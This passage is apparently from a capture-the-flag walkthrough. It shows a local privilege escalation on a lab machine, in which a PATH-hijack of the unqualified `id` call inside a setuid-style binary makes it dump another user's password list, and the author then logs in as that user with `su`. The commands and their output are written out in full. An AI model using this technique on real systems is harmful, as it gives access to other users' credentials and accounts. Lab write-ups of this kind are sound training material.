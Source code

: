 Running the binary reveals that it runs the command `id`, extract the username and trying to grab a file called `.passwords` from that user's home directory.

```terminal
www-data@lookup:/$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

There is a `.password` file on user `think` home directory so that is our target.

![ghidra](6.png)

Analyzing the file with `ghidra` we see it's running `id` without a full path and it's printing the content of `.passwords`.

We can do a path hijacking attack of the command id to read the `.passwords` file of user think.

First we need to get the `id` of the user.

```bash
id think
uid=1000(think) gid=1000(think) groups=1000(think)
```

Now I'll create a id file in `/tmp` that prints out the `id` of user `think`.

```bash
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
```

Now we add `/tmp` to PATH variable.

```bash
export PATH=/tmp:$PATH
```

Now we run the `/usr/sbin/pwm`.

```terminal
www-data@lookup:/$ /usr/sbin/pwm                                                                
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004  
jose1002
jose1001teles
[...]
```

We got the content of the passwords file, and looking through the passwords one sticks out as `think`'s password and we manage to switch to that user.

```terminal
www-data@lookup:/$ su think
Password: 
think@lookup:/$
```
